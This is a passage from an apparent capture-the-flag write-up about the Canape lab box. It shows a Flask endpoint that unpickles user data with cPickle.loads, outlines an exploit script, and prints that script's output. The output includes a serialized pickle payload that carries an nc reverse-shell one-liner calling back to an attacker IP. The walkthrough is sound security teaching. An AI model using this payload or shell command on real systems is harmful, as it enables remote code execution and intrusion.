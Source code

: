 Looking down the source, there’s a path for /check:

    
    
    @app.route("/check", methods=["POST"])
    def check():
        path = "/tmp/" + request.form["id"] + ".p"
        data = open(path, "rb").read()
    
        if "p1" in data:
            item = cPickle.loads(data)
        else:
            item = data
    
        return "Still reviewing: " + item
    

`cPickle.loads` will run the object’s `__reduce__` method when it is
unpickled. So an attacker can create a class with a `__reduce__` function that
executes their desired commands, pickle an instance of that class, and pass
that string to canape.

## www-data Shell

### Outline

Scripted up getting a shell:

  * Creates Exploit class which takes a cmd and sets up the `__reduce__` function.
  * Command also includes the string “moe” so that it will pass the whitelist.
  * Script takes an IP and port to get callback on.
  * Default command is using pipes and nc to get a shell on given port/ip.
  * Creates an instance of the Exploit class.
  * Passes instance to cPickle.dumps to get the serialized string.
  * Breaks that string so that all but the last character go into char, and the last char goes into quote.
  * Calculates the id that will be used on the server.
  * Posts to /submit the char and quote.
  * Posts to /check the id.
  * Profit! 
    
        root@kali# ./get_canape_shell.py 10.10.15.48 4444
    [*] Filename will be: d95b296a74924cca43c2e27fa2fadc6f
    [*] Exploit:
    cposix
    system
    p1
    (S'echo moe && rm /tmp/0xdf; mkfifo /tmp/0xdf; cat /tmp/0xdf | /bin/sh -i 2>&1 | nc 10.10.15.48 4444 > /tmp/0xdf'
    tRp2
    .
    [+] Sending exploit...
    [+] Exploit successfully submitted
    [+] Triggering exploit with /check, id = d95b296a74924cca43c2e27fa2fadc6f
    